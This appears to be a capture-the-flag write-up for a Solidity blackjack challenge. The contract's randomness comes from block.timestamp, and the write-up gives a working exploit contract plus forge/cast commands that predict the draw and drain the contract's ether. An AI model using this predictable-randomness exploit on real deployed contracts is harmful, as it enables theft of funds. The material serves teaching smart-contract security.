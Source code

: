 In a game of blackjack, the objectives are to get the closest to 21, both the dealer and the player are competing in this, but as you know a this game, here at least, is rigged so that you can win if you know how, let's see how we can always win in this game.

```solidity
function isSolved() external view returns (bool) {
    return blackjack.playerWon();
}
```

The `Setup.sol::isSolved()` will get the `Blackjack.sol::playerWon()` bool, this will return true if the player has won the game, let's move on to the `Blackjack.sol`

```solidity
// SPDX-License-Identifier: UNLICENSED
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.25;

contract Blackjack{

    address public dealer;
    bool public playerWon;
    bool public dealerMoved;
    bool public playerMoved;
    bool public dealerWon;

    constructor() payable {
        require(msg.value == 30 ether, "Require 30 Ether to Start the game");
        dealer = msg.sender;
    }

    function playBlackjack(uint256 _choice) public {
        require(dealerWon == false, "Dealer has won the game");
        require(playerWon == false, "You've won the game!");
        uint256 playerCards = 17;
        uint256 dealerCards = 15;
        // You Have the first turn each time, you can choose either pass or draw
        // The dealer will always draw each turn, but... you can stall as long as you want.
        if(_choice == 1 && playerMoved != true){
            playerCards += uint256(keccak256(abi.encodePacked(block.timestamp))) % 10;
            playerMoved = true;
        }else if(_choice == 2 && dealerMoved != true){
            // player pass, but the dealer will draw
            uint256 toAdd = 6;
            dealerCards += toAdd;
            dealerMoved = true;
            dealerWon = true;
        }
        // Transfer all balance if the playerWon
        if(playerCards == 21){
            playerWon = true;
            (bool transfered, ) = payable(msg.sender).call{value: address(this).balance}("");
            require(transfered, "Reward failed to sent");
        }
    }

}
```

We are up against the dealer (which is Setup contract), looking deeper into `playBlackjack()`, we can notice that the randomness there are using `block.timestamp`, this is not recommended for giving a random value to a variable since it is very easy to predict. We can choose whose turn next, of course we want to take the initiative and draw our card, if not, the deealer will win regardless. We only got one chance, so we better make it count, we are not as detail as a smart contract, so to solve this lab, we are going to create an Exploit Contract, that will call the `playBlackjack()` with the value of `1` (our move) and only call it when we got `+4` - since it will bring our card to 21 and if it does, we will have `playerWon()`, here is how we can do it

```solidity
pragma solidity ^0.8.26;

import "./Setup.sol";
import "./Blackjack.sol";

contract Exploit {
    Setup public setup;
    Blackjack public BJ;

    constructor(address payable _setup) {
        setup = Setup(_setup);
        BJ = Blackjack(setup.blackjack());
    }

    function solveBlackjack() public willWin{
        BJ.playBlackjack(1);
    }

    modifier willWin(){
        uint256 randomGuesser = uint256(keccak256(abi.encodePacked(block.timestamp))) % 10;
        require(randomGuesser == 4, "YOU WON'T WIN THIS TIME");
        _;
    }

    receive() external payable{}
}
```

you don't have to use a `modifier`, you can also us a simple `if else` statement to check if you win or not, but here I'm using modifier to return a revert message. Now we just have to deploy the contract and solve it.

```bash
// deploying the exploit contract
forge create src/$PATH_TO_EXPLOIT:$EXPLOIT_NAME -r $RPC_URL --private-key $PK --constructor-args $SETUP_ADDR

// calling the solveBlackjack()
// you maybe luckly to call it once and solved it, but it may require you call it several times
cast send -r $RPC_URL --private-key $PK $EXPLOIT_ADDR "solveBlackjack()"
```

Noy you can just click the `Flag` button to get your flag~